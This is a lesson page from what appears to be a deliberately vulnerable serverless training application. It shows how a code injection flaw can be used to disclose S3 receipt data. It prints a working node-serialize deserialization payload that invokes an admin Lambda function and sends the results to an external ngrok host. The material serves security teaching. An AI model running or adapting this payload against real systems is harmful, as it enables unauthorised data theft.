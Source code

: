 # LESSON #3: Sensitive Information Disclosure

An attcker can leverage the [code injection vulnerability](../LESSONS/LESSON_01.md) to invoke an admin functionality that will disclosure all the receipts from the S3 bucket.

Sending the following payload will invoke an admin function that will pack all the receipts within the specified year and month and will created a signed url to download them.
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ADMIN-GET-RECEIPT\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"year\": \"2018\", \"month\": \"12\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"http://0c971764.ngrok.io/lol?data=\"+JSON.stringify(d));}); }()"}
```

As a result: 

![alt signed-url](https://i.imgur.com/yMkJhKi.png)


Pasting the url in the browser will download the receipts form the S3 bucket:

![alt receipts](https://i.imgur.com/OXDQC9K.png)

- - - 
[<- Lesson #2](../LESSONS/LESSON_02.md)

[Lesson #4 ->](../LESSONS/LESSON_04.md)
